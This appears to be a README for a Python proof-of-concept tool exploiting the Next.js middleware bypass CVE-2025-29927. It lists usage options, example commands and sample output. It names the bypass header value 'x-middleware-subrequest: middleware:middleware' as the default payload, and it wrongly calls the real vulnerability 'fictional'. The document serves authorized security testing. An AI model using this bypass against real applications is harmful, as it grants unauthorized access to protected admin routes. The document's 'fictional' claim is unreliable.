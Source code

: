# PoC for Next.js Middleware Bypass (CVE-2025-29927)

[![Python Version](https://img.shields.io/badge/python-3.7%2B-blue.svg)](https://www.python.org/)
[![Status](https://img.shields.io/badge/status-active-brightgreen.svg)]()

This is a **proof-of-concept** for a **fictional** Next.js middleware bypass vulnerability (CVE-2025-29927). Use **only** for educational and authorized security research.

---

## 🚀 Features

| Feature             | Description                                                       |
| ------------------- | ----------------------------------------------------------------- |
| ✨ Color & Verbose   | Color-coded output; `-v` for detailed debug logs.                 |
| 📦 OOP Structure    | Class-based design for clarity and maintainability.               |
| 🌐 Proxy Support    | Route traffic through HTTP(S) proxies via `--proxy`.              |
| 🍪 Session Handling | Persistent `requests.Session` for cookies & connection reuse.     |
| 🚦 Redirect Control | No-follow-redirect by default; clearly detects pass vs. fail.     |
| 🛠 Custom Headers   | Override `User-Agent`, `x-middleware-subrequest`, or add headers. |

---

## ⚡ Installation

```bash
# Clone repository
git clone https://github.com/your-username/nextjs-middleware-poc.git
cd nextjs-middleware-poc

# (Optional) Create virtual environment
python3 -m venv .venv
source .venv/bin/activate

# Install dependencies
pip install -r requirements.txt
```

> **Requires** Python 3.7+

---

## 🎯 Usage

```bash
python poc.py [options] <host>[:port]
```

| Option                      | Description                                                               |
| --------------------------- | ------------------------------------------------------------------------- |
| `-p, --path PATH`           | Protected route path (default: `/admin`)                                  |
| `-s, --scheme {http,https}` | Protocol (default: `http`)                                                |
| `--header HEADER`           | `x-middleware-subrequest` header value (default: `middleware:middleware`) |
| `-ua, --user-agent AGENT`   | Custom `User-Agent` (default: `Mozilla/5.0`)                              |
| `--proxy PROXY`             | HTTP(S) proxy URL (e.g., `http://127.0.0.1:8080`)                         |
| `-v, --verbose`             | Enable debug output                                                       |
| `-h, --help`                | Show this help message                                                    |

---

## 🔍 Examples

### 1. Basic Test

```bash
python poc.py localhost:3000
```

### 2. HTTPS & Custom Path

```bash
python poc.py example.com -s https -p /dashboard
```

### 3. Proxy & Verbose

```bash
python poc.py internal-app:8080 --proxy http://127.0.0.1:8080 -v
```

---

## ✅ Expected Output

**Success**

```
[*] Target URL: http://localhost:3000/admin
[+] SUCCESS: Middleware bypassed — access granted!
--- Response Snippet ---
<!DOCTYPE html><html>…<title>Admin Panel</title>…
```

**Failure**

```
[*] Target URL: http://localhost:3000/admin
[-] FAIL: Access denied by middleware (302 Redirect)
```

---
